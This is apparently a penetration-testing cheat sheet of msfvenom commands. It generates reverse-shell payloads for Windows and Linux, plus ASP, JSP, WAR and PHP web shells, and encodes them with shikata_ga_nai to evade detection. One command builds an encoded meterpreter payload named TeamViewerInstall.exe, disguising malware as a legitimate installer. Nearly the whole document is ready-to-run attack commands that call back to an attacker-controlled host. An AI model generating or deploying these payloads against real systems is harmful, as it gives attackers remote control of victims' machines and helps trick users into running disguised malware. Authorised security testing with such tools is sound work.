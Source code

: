 ## Payloads
```bash
# Staged Payload for Windows
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
$ msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Stageless Payload for Windows
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

# Staged Payload for Linux
$ msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
$ msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Stageless Payload for Linux
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# asp	
$ msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

# jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp

# war
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# php
$ msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

## Encoder
### Generating Payload - Without Encoding
```bash
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

### Generating Payload - With Encoding
```bash
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

### Multiple Iterations
```bash
$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe`
```
